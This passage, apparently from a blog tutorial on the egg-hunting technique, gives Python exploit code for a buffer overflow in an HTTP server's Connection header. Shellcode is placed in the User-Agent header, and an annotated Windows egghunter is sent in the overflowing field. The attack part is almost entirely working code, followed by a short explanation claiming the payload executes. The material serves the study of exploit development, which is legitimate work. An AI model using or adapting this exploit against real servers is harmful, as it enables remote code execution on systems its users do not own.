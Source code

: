 ```python
shellcode += "\x45\x42\x31\xea\x6a\x02\xb5\x93\x96\xb2\x3a\x4e"
shellcode += "\x13\xc2\x70\xd2\x32\x4b\xdd\x87\x06\x16\xde\x72"
shellcode += "\x44\x2f\x5d\x76\x35\xd4\x7d\xf3\x30\x90\x39\xe8"
shellcode += "\x48\x89\xaf\x0e\xfe\xaa\xe5"

payload = "nopenope" + shellcode


# Generating Egg hunter

egghunter = ""
egghunter += "\x66\x81\xCA\xFF\x0F" # or dx, 0x0fff
egghunter += "\x42"                 # inc edx
egghunter += "\x52"                 # push edx
egghunter += "\x6A\x02"             # push 0x2
egghunter += "\x58"                 # pop eax
egghunter += "\xCD\x2E"             # int 0x2e
egghunter += "\x3C\x05"             # cmp al, 0x5
egghunter += "\x5A"                 # pop edx
egghunter += "\x74\xEF"             # jz 0x0
egghunter += "\xB8\x6e\x6f\x70\x65" # mov eax, 0x6e6f7065
egghunter += "\x8B\xFA"             # mov edi,edx
egghunter += "\xAF"                 # scasd
egghunter += "\x75\xEA"             # jnz 0x5
egghunter += "\xAF"                 # scasd
egghunter += "\x75\xE7"             # jnz 0x5
egghunter += "\xFF\xE7"             # jmp edi

esp = "\xd2\x2d\x1b\x78"

exploit = "A"*2048 + esp + "\x90"*20 + egghunter

buffer = "GET / HTTP/1.1\r\n"
buffer += "Host: " + ip + "\r\n"
buffer += "User-Agent: " + payload + "\r\n"
buffer += "Connection: " + exploit + "\r\n\r\n"

socket.send(buffer)

data = socket.recv(4096)
print data
socket.close()
```

The data being sent here has `payload` in **User-Agent** header and `exploit` in the vulnerable **Connection** header. The `exploit` variable is executing `egghunter` on overflow. `payload` variable contains the `shellcode` and will be there in memory, waiting for the `egghunter`.

After running this code, there will a spike in CPU and in a minute or two you can notice that our payload gets executed:

<p align="center"><img src="/img/blog/2019/egg-hunting/1*YHJRMwuWK2YlOB8QtmGieA.png" /></p>

